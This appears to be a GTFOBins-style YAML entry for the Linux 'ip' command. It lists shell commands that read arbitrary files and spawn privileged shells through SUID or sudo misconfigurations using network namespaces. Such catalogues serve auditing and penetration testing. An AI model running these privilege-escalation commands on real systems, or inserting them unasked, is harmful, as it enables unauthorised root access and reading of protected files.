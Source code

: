 ```yaml
---
description: |
  The read file content is corrupted by error prints.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        ip -force -batch "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        ./ip netns add foo
        ./ip netns exec foo /bin/sh -p
        ./ip netns delete foo
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ip -force -batch "$LFILE"
    - description: This only works for Linux with CONFIG_NET_NS=y.
      code: |
        sudo ip netns add foo
        sudo ip netns exec foo /bin/sh
        sudo ip netns delete foo
    - description: This only works for Linux with CONFIG_NET_NS=y. This version also grants network access.
      code: |
        sudo ip netns add foo
        sudo ip netns exec foo /bin/ln -s /proc/1/ns/net /var/run/netns/bar
        sudo ip netns exec bar /bin/sh
        sudo ip netns delete foo
        sudo ip netns delete bar

---
```

